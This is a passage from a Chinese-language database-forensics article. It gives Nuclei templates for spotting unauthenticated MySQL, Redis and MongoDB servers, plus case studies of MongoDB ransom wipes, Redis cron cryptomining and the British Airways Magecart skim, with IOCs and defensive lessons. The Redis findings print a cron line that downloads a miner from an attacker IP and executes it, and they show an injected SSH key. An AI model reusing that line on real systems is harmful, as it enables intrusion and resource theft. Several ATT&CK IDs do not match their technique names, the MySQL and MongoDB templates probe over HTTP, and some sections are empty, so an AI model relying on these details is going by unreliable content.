    generate_timeline(all_events)
```

### Nuclei 模板

以下 Nuclei 模板用于检测数据库暴露：

```yaml
id: mysql-unauthorized-access
info:
  name: MySQL Unauthorized Access Detection
  author: x7peeps
  severity: critical
  description: Detects MySQL instances accessible without authentication
  tags: mysql,database,unauth
  classification:
    cwe-id: CWE-306
    mitre-attack: T1190

http:
  - raw:
      - |
        GET / HTTP/1.1
        Host: {{Hostname}}

    matchers:
      - type: word
        part: body
        words:
          - "Access denied for user"
          - "mysql_native_password"
          - "caching_sha2_password"
        condition: or

    extractors:
      - type: regex
        group: 1
        regex:
          - "MySQL ([\\d.]+)"
```

```yaml
id: redis-unauthorized-access
info:
  name: Redis Unauthorized Access Detection
  author: x7peeps
  severity: critical
  description: Detects Redis instances accessible without authentication
  tags: redis,database,unauth
  classification:
    cwe-id: CWE-306
    mitre-attack: T1190

network:
  - inputs:
      - data: "INFO server\r\n"
        host: "{{Hostname}}"
        port: 6379

    matchers:
      - type: word
        words:
          - "redis_version"
          - "redis_mode"
        condition: or

    extractors:
      - type: regex
        regex:
          - "redis_version:([\\d.]+)"
```

```yaml
id: mongodb-unauthorized-access
info:
  name: MongoDB Unauthorized Access Detection
  author: x7peeps
  severity: critical
  description: Detects MongoDB instances accessible without authentication
  tags: mongodb,database,unauth
  classification:
    cwe-id: CWE-306
    mitre-attack: T1190

http:
  - raw:
      - |
        GET /serverStatus HTTP/1.1
        Host: {{Hostname}}:27017

    matchers:
      - type: word
        part: body
        words:
          - "dbHost"
          - "ok"
          - "version"
        condition: and

    extractors:
      - type: regex
        regex:
          - "\"version\"\\s*:\\s*\"([\\d.]+)\""
```

---

## 0x0A 公开案例分析

### 案例一：MongoDB 数据泄露事件（2017 至今）

#### 事件概述

2017 年 12 月底至 2018 年初，大量 MongoDB 实例因默认配置（无认证、绑定 0.0.0.0）暴露在公网，遭受大规模数据删除和勒索攻击。受影响的组织包括美国多家医疗机构、科技公司和政府机构。攻击者入侵后删除数据库内容并留下勒索信息，要求支付比特币赎金。截至 2018 年 1 月，超过 33,000 个 MongoDB 实例被暴露在互联网上，其中约 28,000 个未设置任何认证。

#### 攻击链还原



#### MITRE ATT&CK 映射

| ATT&CK 技术 | 技术编号 | 攻击阶段 | 本案例对应 |
|------------|---------|---------|-----------|
| Active Scanning: Scan Databases | T1592.002 | 侦察 | 使用 Shodan 扫描 MongoDB 端口 |
| Exploit Public-Facing Application | T1190 | 利用 | 利用未授权访问直接连接 |
| Data from Information Repositories | T1005 | 收集 | 导出数据库内容 |
| Data Destruction | T1485 | 影响 | 删除数据库内容 |
| Account Access Removal | T1531 | 影响 | 未修改但删除了数据 |
| Stored Data Manipulation | T1565.001 | 影响 | 修改数据库中的勒索信息 |

#### 取证发现

```
# 典型的 MongoDB 未授权访问检测
$ mongosh --host 192.168.1.100 --port 27017
> show dbs
admin    0.000GB
config   0.000GB
local    0.000GB
users_db 2.300GB    ← 可见的业务数据库

# 检查是否被篡改
> db.system.js.find()
{ "_id" : "note", "value" : "SEND 0.2 BTC TO 1A2B3C..." }  ← 勒索留言
```

#### IOC 列表

| IOC 类型 | 值 | 说明 |
|---------|---|------|
| 勒索钱包地址 | 13E1GF6PmEZ5h2tUdWt2xWUwS2RcFhR8a | Bitcoin 勒索地址 |
| C2 指标 | 185.x.x.x/24 | 已知攻击者 IP 段 |
| 文件哈希 | 无（原生工具利用） | 攻击者使用原生 mongodump |
| 端口 | 27017/TCP | MongoDB 默认端口 |

#### 经验教训

1. **默认配置即漏洞**：MongoDB 3.6 之前的默认配置不启用认证且绑定所有网络接口。在部署数据库时必须启用认证（`--auth`）并限制绑定 IP。
2. **网络隔离是关键**：数据库实例不应直接暴露在公网，应通过 VPC、安全组、防火墙等手段实现网络隔离。
3. **备份策略**：定期备份数据库并验证备份可用性，确保在数据被删除或加密后能快速恢复。
4. **监控告警**：部署数据库访问审计和异常行为检测，在第一时间发现未授权访问。

### 案例二：Redis 未授权访问与加密货币挖矿

#### 事件概述

2018 年至 2020 年期间，全球大量暴露在公网的 Redis 实例被攻击者利用。攻击者利用 Redis 的未授权访问漏洞，通过写入 crontab 实现远程代码执行（MITRE ATT&CK: T1053.003 Cron），部署加密货币挖矿程序。部分攻击还涉及 SSH 公钥注入和 WebShell 植入。2020 年安全研究人员发现一个名为"TeamTNT"的组织专门针对暴露的 Redis 和 Docker API 实例进行加密货币挖矿攻击。

#### 攻击链还原



#### MITRE ATT&CK 映射

| ATT&CK 技术 | 技术编号 | 攻击阶段 | 本案例对应 |
|------------|---------|---------|-----------|
| Active Scanning | T1595 | 侦察 | 扫描 Redis 端口 |
| Exploit Public-Facing Application | T1190 | 利用 | Redis 未授权访问 |
| Server Software Component: SSH Authorized Keys | T1505.004 | 持久化 | 写入 authorized_keys |
| Scheduled Task/Job: Cron | T1053.003 | 持久化 | 写入 crontab |
| Command and Scripting Interpreter: Unix Shell | T1059.004 | 执行 | 反弹 Shell |
| Ingress Tool Transfer | T1105 | C2 | wget/curl 下载挖矿工具 |
| Resource Hijacking: Cryptocurrency Mining | T1496 | 影响 | 加密货币挖矿 |

#### 取证发现

```bash
# 检查 Redis 配置
$ redis-cli -h 192.168.1.100
> CONFIG GET requirepass
1) "requirepass"
2) ""                    ← 空密码

> CONFIG GET dir
1) "dir"
2) "/var/spool/cron"     ← 可写 crontab 目录

> KEYS *
 1) "crontab"
 2) "x"
 3) "backup"
 4) "sshkey"
 5) "debug"

# 检查 crontab 键值
> GET crontab
"\n\n* * * * * curl -o /tmp/miner http://185.x.x.x/miner && chmod +x /tmp/miner && /tmp/miner\n\n"

# 检查 SSH 公钥
> GET sshkey
"ssh-rsa AAAAB3NzaC1yc2EAAAADAQAB...attacker_key..."
```

#### IOC 列表

| IOC 类型 | 值 | 说明 |
|---------|---|------|
| 挖矿矿池 | pool.minexmr.com:443 | Monero 挖矿池 |
| 挖矿钱包 | 48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRgGhK8D8E6DQ4wQf4wB3Z5Q7 | Monero 钱包地址 |
| 下载 URL | hxxp://185.x.x.x/miner | 挖矿程序下载地址 |
| 攻击者 IP | 185.x.x.x, 103.x.x.x | C2 服务器 |
| 文件路径 | /tmp/miner, /tmp/.system | 挖矿程序落地路径 |
| 挖矿进程名 | kworkerds, dbused | 伪装成系统进程 |
| Cron 特征 | curl -o /tmp/ | 下载执行模式 |

#### 经验教训

1. **Redis 安全基线**：始终设置 `requirepass`，将 `bind` 配置为内网 IP，启用 `protected-mode`，禁用危险命令（`rename-command FLUSHALL ""`）。
2. **文件系统权限**：Redis 数据目录不应有 crontab 写入权限，建议禁用 `CONFIG SET` 命令或通过 ACL 限制。
3. **出站流量监控**：对服务器的出站连接进行白名单控制，及时发现连接至未知矿池的行为。
4. **容器化部署**：将 Redis 部署在容器中并设置只读文件系统，限制对宿主机 crontab 和 SSH 目录的写入。

### 案例三（可选）：British Airways Magecart 攻击中的数据库取证

#### 事件概述

2018 年 9 月，British Airways 遭受 Magecart 攻击，攻击者通过供应链攻击方式在 British Airways 官网的 JavaScript 中注入了恶意脚本。该脚本窃取了约 380,000 笔信用卡交易信息。攻击者利用第三方 JavaScript 库的漏洞注入 skimmer 代码，窃取的数据通过 HTTP POST 请求外传至攻击者控制的服务器。

#### 攻击链中的数据库取证要点

攻击者注入的 skimmer 代码在客户端收集信用卡信息后，通过 HTTP POST 将数据发送至 `https://secure-data-processing.com/ba/`。在数据库取证层面，需要关注的是：

1. **Web 应用日志分析**：检测异常的 HTTP POST 请求模式，识别数据外传的目标 URL。
2. **CDN/WAF 日志**：检查 JavaScript 文件的修改记录，定位供应链攻击的时间窗口。
3. **数据库中的交易数据**：比对被泄露的交易记录与数据库中的原始记录，确定泄露的数据范围和时间。

| 取证数据源 | 分析重点 | ATT&CK 映射 |
|-----------|---------|------------|
| Web 服务器访问日志 | POST 到外部 URL 的请求 | T1041 Exfiltration Over C2 Channel |
| JavaScript 文件完整性 | 脚本文件的 MD5/SHA256 变化 | T1195 Supply Chain Compromise |
| 交易数据库 | 被泄露的交易记录时间范围 | T1005 Data from Local System |
| CDN 日志 | 资源文件缓存和修改记录 | T1584.004 Server |

#### IOC 列表

| IOC 类型 | 值 | 说明 |
|---------|---|------|
| 恶意域名 | secure-data-processing.com | 数据外传服务器 |
| 恶意 URL | hxxps://secure-data-processing.com/ba/ | 数据接收端点 |
| JavaScript 文件 | main.js（被篡改） | 注入 skimmer 的入口 |
| 数据格式 | creditCardNumber, expiry, cvv | 窃取的字段 |

#### 经验教训

1. **第三方 JavaScript 管理**：对所有第三方 JavaScript 资源实施 Subresource Integrity (SRI) 校验。
2. **CSP 策略**：部署 Content-Security-Policy 限制 JavaScript 可以发送数据的目标域。
3. **实时监控**：监控客户端 JavaScript 文件的完整性变化，及时发现篡改行为。

---

## 0x0B 参考资料

| 序号 | 标题 | 链接 |
|-----|------|------|
| 1 | MySQL 8.0 Reference Manual - Binary Log | https://dev.mysql.com/doc/refman/8.0/en/binary-log.html |
| 2 | PostgreSQL 16 Documentation - WAL Write-Ahead Log | https://www.postgresql.org/docs/14/wal.html |
| 3 | MongoDB Security Documentation | https://www.mongodb.com/docs/manual/security/ |
| 4 | Redis Security Guide | https://redis.io/docs/management/security/ |
| 5 | OWASP SQL Injection Prevention Cheat Sheet | https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html |
| 6 | AWS RDS Database Log Files | https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/USER_LogAccess.html |
| 7 | MITRE ATT&CK: Data from Information Repositories (T1005) | https://attack.mitre.org/techniques/T1005/ |
| 8 | Percona Toolkit Documentation | https://docs.percona.com/percona-toolkit/ |
| 9 | pgAudit - PostgreSQL Audit Extension | https://www.pgaudit.org/ |
| 10 | Redis Unprotected Instances Threat Report | https://unit42.paloaltonetworks.com/cloud-vulnerabilities/redis-unprotected-instances/ |
| 11 | MongoDB Security Best Practices | https://www.mongodb.com/docs/manual/security/ |
| 12 | Sigma Rules for Database Attack Detection | https://github.com/SigmaHQ/sigma |

---

> 本文所有攻击技术、检测方法和工具命令仅用于安全研究和授权的渗透测试/应急响应场景。未经授权对他人系统进行攻击是违法行为。